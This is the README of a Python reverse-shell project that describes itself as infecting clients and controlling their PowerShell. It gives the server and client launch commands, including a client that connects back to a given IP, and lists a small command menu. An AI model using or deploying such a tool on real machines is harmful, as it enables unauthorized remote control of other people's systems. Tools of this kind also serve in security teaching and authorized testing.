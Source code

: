 # Reverse-Shell
Infects clients and controls their powershell with Python.

#### Requirements

- 🐍 Python 3.x 🐍
- 💫 Open Ports 💫

#### Installation
Linux or Windows or  MacOs

#### [Server]

```sh
python3 server.py
```
#### [Client]
```sh
pip3 install colorama
python3 client.py {ip}
```

#### Extra commands

#### [Menu]

- connect {number}

#### [Shell Commmands]

- alert {title} {message}
- exit

#### Preview

<img src="https://i.imgur.com/icFpnKA.png"> 
